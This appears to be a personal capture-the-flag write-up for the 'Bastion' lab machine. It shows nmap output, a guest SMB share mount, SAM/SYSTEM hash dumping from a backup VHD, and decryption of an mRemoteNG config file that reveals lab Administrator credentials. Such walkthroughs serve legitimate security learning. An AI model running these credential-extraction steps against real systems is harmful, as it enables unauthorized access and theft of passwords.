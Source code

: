 # nmap 

```shell
tarting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-19 09:31 CDT
Nmap scan report for 10.129.11.5
Host is up (0.0015s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE      VERSION
22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-09-19T16:31:20+02:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: -39m58s, deviation: 1h09m14s, median: 0s
| smb2-time: 
|   date: 2024-09-19T14:31:18
|_  start_date: 2024-09-19T14:13:32

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.38 seconds

```

# Found username on the machine //IP/Backups 

 > L4mpje-PC   
 
# mounted the share using mount [resource](https://cyberthoth.medium.com/mounting-vhd-files-in-kali-linux-through-remote-share-smb-1c4d37c22211)

```shell
sudo mount -t cifs \\IP\Share -o user=guest,password= <local_dir>
```
 
 
> has a vhd file that, get SAM and SYSTEM files from C:\\Windows\System32\Config\SAM C:\\Windows\System32\Config\SYSTEM, I looked at a walkthrough to proceed with this 

```shell
samdump SYSTEM SAM
```

l4mpje:bureaulampje

# found an application mRemoteNG, which enables remote connection 

> Get the config file which contains credentials from 

```shell
Users\L4mpje\AppData\Roaming\mRemoteNG/confCons.xml
```

>I downloaded the file from the windows machine using scp

```shell
scp l4mpje@10.129.11.5:/Users/L4mpje/AppData/Roaming/mRemoteNG/confCons.xml .

```


> Then I used a python script that decrypts mRemoteNG's config file
> [resource](https://github.com/gquere/mRemoteNG_password_decrypt) 

```shell
python3 mremoteng_decrypt.py confCons.xml 

```

> got admin password 

```
Name: DC
Hostname: 127.0.0.1
Username: Administrator
Password: thXLHM96BeKL0ER2

Name: L4mpje-PC
Hostname: 192.168.1.75
Username: L4mpje
Password: bureaulampje

```
